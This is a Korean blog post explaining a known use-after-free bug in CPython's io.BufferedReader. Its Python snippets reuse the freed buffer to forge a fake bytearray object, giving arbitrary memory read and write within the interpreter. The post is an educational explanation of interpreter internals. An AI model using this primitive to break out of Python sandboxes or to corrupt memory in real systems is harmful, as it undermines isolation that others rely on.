 ```yaml
---
author: kiwiyou
pubDatetime: 2024-01-19T05:47:51.188Z
title: CPython에서 임의 메모리 읽고 쓰기
slug: unsafe-python
featured: false
draft: false
tags:
  - Python
description: CPython에서 임의 메모리에 접근하는 방법을 소개합니다.
comment: true
---
```


Python으로 할 수 있는 것들을 찾아보다, [이 글](https://pwn.win/2022/05/11/python-buffered-reader.html)을 보게 되었습니다.
해당 글은 CPython 2.7에서부터 내려온 한 버그를 소개하고 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)                       # get view of buffer used by BufferedReader
del f                           # deallocate buffer
view = view.cast('P')
L = [None] * len(view)          # create list whose array has same size
                                # (this will probably coincide with view)
view[0] = 0                     # overwrite first item with NULL
print(L[0])                     # segfault: dereferencing NULL
```

위 코드는 다음과 같이 작동합니다.

1. `BufferedReader`의 내부 버퍼를 가리키는 `memoryview`를 만듭니다.
2. `BufferedReader`와 내부 버퍼를 할당 해제합니다.
3. 내부 버퍼와 같은 길이를 가지도록 리스트를 만듭니다. 리스트가 할당한 공간은 `memoryview`가 가리키는 공간과 일치하게 됩니다.
4. `memoryview`의 첫 번째 값을 0으로 바꾸면, 리스트가 할당한 공간의 첫 번째 값도 0이 됩니다.
5. CPython의 모든 객체는 주소로 관리되므로 리스트의 첫 번째 원소를 가져오려 시도하면 주소 0을 역참조하게 됩니다.

3번 동작은 힙 할당이 가장 최근에 생긴 빈 공간을 재사용하려는 동작에 기인합니다. Use After Free 버그라고도 합니다.

위 코드를 통해 원하는 주소의 값을 CPython 객체로서 불러오는 것이 가능합니다.
따라서 임의의 바이트열을 메모리상에 띄우고 그 주소를 알 수 있다면 임의의 CPython 객체의 모조품을 만들 수 있습니다.

바이트열을 메모리상에 띄우는 것은 `bytes` 클래스를 이용할 수 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_hash_t ob_shash;
    char ob_sval[1];
} PyBytesObject;
```

`PyBytesObject`의 정의를 보면, 실제 바이트열이 32바이트 오프셋을 두고 존재함을 알 수 있습니다.
`bytes` 객체에 원하는 정보를 담고, `id(bytes)+32`를 하면 바이트열의 주소를 알 수 있습니다.

bytes는 불변이므로, 임의 메모리를 수정하기 위해서는 `bytearray` 객체의 모조품을 만들 필요가 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_ssize_t ob_alloc;
    char *ob_bytes;
    char *ob_start;
    Py_ssize_t ob_exports;
} PyByteArrayObject;
```

`ob_size`는 실제 길이, `ob_alloc`은 할당 길이, `ob_bytes`는 할당 주소, `ob_start`는 실제 시작 주소입니다.
이를 원하는 주소와 길이로 지정해 주면 임의 주소의 메모리를 읽고 쓸 수 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)
del f
view = view.cast('P')
L = [None] * len(view)

import struct
my_text = b"Hello World!"
fake_array = struct.pack('nPnnPPn', 9, id(bytearray), len(my_text), len(
    my_text), id(my_text)+32, id(my_text)+32, 0)
view[0] = id(fake_array)+32
print(L[0])
```
